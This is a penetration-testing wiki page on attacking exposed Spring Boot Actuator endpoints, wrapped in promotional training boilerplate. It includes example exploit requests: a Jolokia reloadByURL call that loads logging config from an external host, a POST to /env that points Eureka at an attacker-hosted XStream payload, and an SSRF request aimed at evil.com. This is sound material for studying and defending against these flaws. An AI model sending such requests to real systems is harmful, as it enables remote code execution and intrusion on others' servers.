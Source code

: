 # Spring Actuators

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Resources Training AWS Red Team Expert (ARTE)**](https://training.khulnasoft.com/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Resources Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.khulnasoft.com/courses/grte)

<details>

<summary>Support Resources</summary>

* Check the [**subscription plans**](https://patreon.com/khulnasoft)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@resources\_live**](https://twitter.com/khulnasoft\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**Resources**](https://github.com/khulnasoft/resources) and [**Resources Cloud**](https://github.com/khulnasoft/resources-cloud) github repos.

</details>
{% endhint %}
{% endhint %}

## **Spring Auth Bypass**

<figure><img src="../../.gitbook/assets/image (927).png" alt=""><figcaption></figcaption></figure>

**From** [**https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png**](https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png)\*\*\*\*

## Exploiting Spring Boot Actuators

**Check the original post from** \[**https://www.veracode.com/blog/research/exploiting-spring-boot-actuators**]

### **Key Points:**

* Spring Boot Actuators register endpoints such as `/health`, `/trace`, `/beans`, `/env`, etc. In versions 1 to 1.4, these endpoints are accessible without authentication. From version 1.5 onwards, only `/health` and `/info` are non-sensitive by default, but developers often disable this security.
* Certain Actuator endpoints can expose sensitive data or allow harmful actions:
  * `/dump`, `/trace`, `/logfile`, `/shutdown`, `/mappings`, `/env`, `/actuator/env`, `/restart`, and `/heapdump`.
* In Spring Boot 1.x, actuators are registered under the root URL, while in 2.x, they are under the `/actuator/` base path.

### **Exploitation Techniques:**

1. **Remote Code Execution via '/jolokia'**:
   * The `/jolokia` actuator endpoint exposes the Jolokia Library, which allows HTTP access to MBeans.
   * The `reloadByURL` action can be exploited to reload logging configurations from an external URL, which can lead to blind XXE or Remote Code Execution via crafted XML configurations.
   * Example exploit URL: `http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/artsploit.com!/logback.xml`.
2. **Config Modification via '/env'**:
   * If Spring Cloud Libraries are present, the `/env` endpoint allows modification of environmental properties.
   * Properties can be manipulated to exploit vulnerabilities, such as the XStream deserialization vulnerability in the Eureka serviceURL.
   *   Example exploit POST request:

       ```
       POST /env HTTP/1.1
       Host: 127.0.0.1:8090
       Content-Type: application/x-www-form-urlencoded
       Content-Length: 65

       eureka.client.serviceUrl.defaultZone=http://artsploit.com/n/xstream
       ```
3. **Other Useful Settings**:
   * Properties like `spring.datasource.tomcat.validationQuery`, `spring.datasource.tomcat.url`, and `spring.datasource.tomcat.max-active` can be manipulated for various exploits, such as SQL injection or altering database connection strings.

### **Additional Information:**

* A comprehensive list of default actuators can be found [here](https://github.com/artsploit/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt).
* The `/env` endpoint in Spring Boot 2.x uses JSON format for property modification, but the general concept remains the same.

### **Related Topics:**

1. **Env + H2 RCE**:
   * Details on exploiting the combination of `/env` endpoint and H2 database can be found [here](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database).
2. **SSRF on Spring Boot Through Incorrect Pathname Interpretation**:
   * The Spring framework's handling of matrix parameters (`;`) in HTTP pathnames can be exploited for Server-Side Request Forgery (SSRF).
   *   Example exploit request:

       ```http
       GET ;@evil.com/url HTTP/1.1
       Host: target.com
       Connection: close
       ```
{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Resources Training AWS Red Team Expert (ARTE)**](https://training.khulnasoft.com/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Resources Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.khulnasoft.com/courses/grte)

<details>

<summary>Support Resources</summary>

* Check the [**subscription plans**](https://patreon.com/khulnasoft)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@resources\_live**](https://twitter.com/khulnasoft\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**Resources**](https://github.com/khulnasoft/resources) and [**Resources Cloud**](https://github.com/khulnasoft/resources-cloud) github repos.

</details>
{% endhint %}
</details>
{% endhint %}

